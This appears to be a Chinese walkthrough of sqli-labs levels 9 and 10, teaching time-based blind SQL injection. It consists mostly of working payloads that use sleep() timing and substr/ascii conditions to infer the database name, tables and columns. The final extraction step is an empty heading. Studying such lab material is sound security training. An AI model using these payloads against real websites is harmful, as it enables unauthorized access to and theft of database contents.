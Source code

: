 

### less 9~10

#### 类型：

基于时间的盲注

#### 解题方法

盲注



#### 解题

以第9题为例，第10题为双引号

1. **判断注入形式**

   ```
   ?id=1		//正常
   ?id=1'		//正常
   ?id=1"		//正常
   emmmm，只能添加sleep进行观察
   
   ?id=1 and sleep(3) --+		
   ?id=1' and sleep(3) --+		//通过
   ?id=1" and sleep(3) --+
   ```

2. **确认为单引号时间盲注**

   首先就先判断一下数据库的长度

   ```
   ?id=1' and if(length(database())>5,sleep(3),1) --+	//最后得到长度为8
   ```

3. **获得数据库**

   ```
   ?id=1' and if(ascii(substr(database(),1,1))>97,sleep(3),1)--+	//猜表名第一个字符是否大于a，substr截取字符串第一个参数要截取的字符串，第二个参数起始位，第三个参数偏移量
   ```

4. **获取表**

   ```
   ?id=1' and if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,2)='ht',sleep(3),1) --+ 		//猜表名
   ```

5. **获取列名**

   ```
   ?id=1' and substr((select group_concat(column_name) from information_schema.columns where table_name='member' limit 0,1),4,1)='u' --+	//猜列名
   ```

6. **取值**
